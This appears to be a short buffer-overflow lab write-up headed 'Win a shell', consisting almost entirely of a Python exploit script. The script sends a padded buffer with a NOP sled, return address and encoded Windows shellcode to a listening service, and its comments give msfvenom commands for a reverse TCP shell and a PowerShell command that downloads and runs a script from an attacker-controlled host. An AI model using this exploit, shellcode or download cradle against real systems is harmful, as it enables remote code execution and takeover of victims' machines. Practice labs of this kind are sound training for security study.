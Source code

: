 ## Win a shell

Script exploit.py

```
import socket
import sys
from time import sleep

# msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00\x07\x2e\xa0\x00\x07\x2e\xa0" -f c
# msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00\x07\x2e\xa0" -f c

shellcode=("\xfc\xbb\x97\x19\xc4\xcb\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x6b\xf1\x46\xcb\x93"
"\x02\x27\x45\x76\x33\x67\x31\xf3\x64\x57\x31\x51\x89\x1c\x17"
"\x41\x1a\x50\xb0\x66\xab\xdf\xe6\x49\x2c\x73\xda\xc8\xae\x8e"
"\x0f\x2a\x8e\x40\x42\x2b\xd7\xbd\xaf\x79\x80\xca\x02\x6d\xa5"
"\x87\x9e\x06\xf5\x06\xa7\xfb\x4e\x28\x86\xaa\xc5\x73\x08\x4d"
"\x09\x08\x01\x55\x4e\x35\xdb\xee\xa4\xc1\xda\x26\xf5\x2a\x70"
"\x07\x39\xd9\x88\x40\xfe\x02\xff\xb8\xfc\xbf\xf8\x7f\x7e\x64"
"\x8c\x9b\xd8\xef\x36\x47\xd8\x3c\xa0\x0c\xd6\x89\xa6\x4a\xfb"
"\x0c\x6a\xe1\x07\x84\x8d\x25\x8e\xde\xa9\xe1\xca\x85\xd0\xb0"
"\xb6\x68\xec\xa2\x18\xd4\x48\xa9\xb5\x01\xe1\xf0\xd1\xe6\xc8"
"\x0a\x22\x61\x5a\x79\x10\x2e\xf0\x15\x18\xa7\xde\xe2\x5f\x92"
"\xa7\x7c\x9e\x1d\xd8\x55\x65\x49\x88\xcd\x4c\xf2\x43\x0d\x70"
"\x27\xc3\x5d\xde\x98\xa4\x0d\x9e\x48\x4d\x47\x11\xb6\x6d\x68"
"\xfb\xdf\x04\x93\x6c\x20\x70\x9b\x06\xc8\x83\x9b\xc7\x54\x0d"
"\x7d\x8d\x74\x5b\xd6\x3a\xec\xc6\xac\xdb\xf1\xdc\xc9\xdc\x7a"
"\xd3\x2e\x92\x8a\x9e\x3c\x43\x7b\xd5\x1e\xc2\x84\xc3\x36\x88"
"\x17\x88\xc6\xc7\x0b\x07\x91\x80\xfa\x5e\x77\x3d\xa4\xc8\x65"
"\xbc\x30\x32\x2d\x1b\x81\xbd\xac\xee\xbd\x99\xbe\x36\x3d\xa6"
"\xea\xe6\x68\x70\x44\x41\xc3\x32\x3e\x1b\xb8\x9c\xd6\xda\xf2"
"\x1e\xa0\xe2\xde\xe8\x4c\x52\xb7\xac\x73\x5b\x5f\x39\x0c\x81"
"\xff\xc6\xc7\x01\x1f\x25\xcd\x7f\x88\xf0\x84\x3d\xd5\x02\x73"
"\x01\xe0\x80\x71\xfa\x17\x98\xf0\xff\x5c\x1e\xe9\x8d\xcd\xcb"
"\x0d\x21\xed\xd9\x0d\xc5\x11\xe2")

buffer = 'A'*300 + "\x90"*14 + '\x05\x12\x50\x62' + "\x90"*20 + shellcode

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.104',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW5 " + buffer)
  s.close()

except Exception as e:
  print '[*] Error: ' + str(e)
  sys.exit()
```
